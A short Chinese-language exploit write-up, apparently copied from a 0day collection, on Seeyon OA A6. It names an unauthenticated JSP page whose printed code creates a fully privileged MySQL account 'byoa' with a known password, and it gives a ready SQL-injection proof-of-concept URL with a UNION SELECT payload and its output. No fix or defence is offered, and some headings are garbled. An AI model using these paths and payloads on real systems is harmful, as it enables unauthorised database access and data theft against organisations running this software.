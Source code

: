 # 致远 OA A6 重置数据库账号密码漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/4.html](http://book.iwonder.run/0day/致远 oa/4.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A6

## 三、复现过程

### 重置数据库账号密码防御

```
http://www.0-sec.org/yyoa/ext/byoa/start.jsp 
```

该文件的代码为：

```
<%    Connection conn = null;    PreparedStatement pstmt = null;    String sql = "create user byoa IDENTIFIED by 'byoa'";    try {        conn = null;//net.btdz.oa.common.ConnectionPoolBean.getConnection();        pstmt = conn.prepareStatement(sql);        out.print(pstmt.executeUpdate());        sql = "grant all on *.* to byoa";        pstmt = conn.prepareStatement(sql);        out.println(pstmt.executeUpdate());        pstmt.close();        sql = "update mysql.user set password=password('byoa') where user='byoa'";        pstmt = conn.prepareStatement(sql);        out.println(pstmt.executeUpdate());        pstmt.close();        sql = "flush privileges";        pstmt = conn.prepareStatement(sql);        out.print(pstmt.executeUpdate());        pstmt.close();        //conn.close();    } catch (Exception ex) {                    out.println(ex.getMessage());    }%> 
```

可以抛光该文件没有验证任何权限，便进行了重置数据库用户 byoa 的密码为：byoa

### mysql + jsp 注射

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp 
```

### poc

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp?user_ids=(17) union all select user()%23{'success':false,'errors':'root@localhost'} 
```

